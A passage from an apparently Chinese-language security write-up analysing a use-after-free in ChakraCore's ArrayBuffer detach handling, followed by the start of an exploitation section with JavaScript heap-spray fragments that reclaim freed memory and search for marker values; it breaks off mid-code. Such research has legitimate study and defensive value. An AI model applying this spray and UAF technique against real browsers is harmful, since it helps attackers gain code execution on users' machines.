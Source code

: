 会调用 Js::ArrayBufferDetachedStateBase *__fastcall Js::ArrayBuffer::DetachAndGetState—&gt;

chakra!Js::ArrayBuffer::ClearParentsLength 把对象的长度清掉

[![](https://p1.ssl.qhimg.com/t0114514d6726b9f6cf.jpg)](https://p1.ssl.qhimg.com/t0114514d6726b9f6cf.jpg)

此时还没有清掉内存，后续函数会把内存释放掉。

4）然而在变量view 中却仍然保留着buffer对象缓冲区的引用，所以造成UAF 漏洞。

下面内存是view对象的，此时View对buffer对象申请的缓冲区的引用仍然存在，也就是地址并没有清零

[![](https://p3.ssl.qhimg.com/t01803d3aff7ab7b4b2.jpg)](https://p3.ssl.qhimg.com/t01803d3aff7ab7b4b2.jpg)

此时我们看一下内存情况，buffer对象申请的缓冲区是不能被访问的

[![](https://p1.ssl.qhimg.com/t0145ec875c52e3db3b.jpg)](https://p1.ssl.qhimg.com/t0145ec875c52e3db3b.jpg)

[![](https://p3.ssl.qhimg.com/t01a4990877234ab775.jpg)](https://p3.ssl.qhimg.com/t01a4990877234ab775.jpg)

已经被系统给回收了。

这样我们再占位这内存后，利用view对象去操作这块内存就造成了UAF漏洞。

**2. 漏洞利用&amp;Pwn**

漏洞原因已经比较清晰了，but, How to Pwn?继续分析，

利用技术要点：

1）UAF漏洞在释放buffer对象的缓冲区后，紧接着通过分配Array 来占用已释放的缓冲区内存。OOB漏洞不需要前面的释放buffer对象缓冲区代码，最终占位的是缓冲区4G后的空间。

代码如下：



```
for(var i=0;i&lt;0x1000;i+=1)
`{`
arr[i]=new Array(0x800);
arr[i][1]=25959;
arr[i][0]=0;
｝
```

2）通过write向占位的arr写入标记，然后检测arr定位到占位成功的arr。OOB漏洞调用write写的时候，索引begin和end都需要加上0x40000000。



```
for(var i=0;i&lt;0x1000;i+=1)
`{`
arr[i]=new Array(0x800);
arr[i][1]=25959;
arr[i][0]=0;
write(0x0e,0x00010,0x1000,1851880825);
if(arr[i][0]==1851880825)
`{`
```
